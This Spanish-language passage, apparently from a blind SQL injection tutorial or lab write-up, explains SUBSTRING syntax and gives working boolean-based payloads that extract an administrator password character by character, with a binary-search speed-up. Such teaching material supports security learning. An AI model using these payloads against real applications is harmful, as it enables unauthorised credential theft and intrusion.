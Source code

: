   ```sql
  SUBSTRING(password FROM 1 FOR 1)
  ```
* **SQL Server (T-SQL)**: `SUBSTRING(expression, start, length)`

  ```sql
  SUBSTRING(password, 1, 1)
  ```
* **Oracle**: `SUBSTR(string, start, length)` (nota la diferencia en el nombre)

  ```sql
  SUBSTR(password, 1, 1)
  ```

**Observación:** en todos los SGBD la posición suele empezar en 1 (no en 0).

---

## 4) Estrategia básica para extraer un carácter (ejemplo)

Queremos saber el primer carácter del password del usuario `Administrator`.

Payload conceptual (si el valor se inyecta dentro de comillas):

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1)='s'--
```

Si la respuesta muestra "Welcome back" → la condición es verdadera → primer carácter = 's'.
Si no → falso.

### Paso a paso completo:

1. Confirmar que el parámetro es vulnerable con condiciones triviales (`' AND '1'='1` / `' AND '1'='2`).
2. Determinar la longitud aproximada (opcional) probando `LENGTH`/`LEN` con booleanos o avanzando hasta obtener false cuando la posición excede la longitud.
3. Para posición `i` probar caracteres `c` hasta encontrar el verdadero:

   * `' AND SUBSTRING((SELECT Password ...), i, 1) = 'c' -- `
   * o usar comparaciones `>` / `<` para acelerar (`> 'm'`, etc.).

---

## 5) Optimización: búsqueda binaria en el alfabeto (reduce peticiones)

En vez de probar carácter por carácter en un conjunto de 95 caracteres imprimibles, usa comparaciones `>` y `<` con orden lexicográfico o ASCII:

* PRIMER paso: prueba si `SUBSTRING(...) > 'm'` → si true el carácter está en la mitad alta; si false está en la mitad baja.
* Repetir dividiendo el rango hasta identificar el carácter exacto.

Ejemplo (MySQL):

```
xyz' AND ASCII(SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1)) > 109 --
```
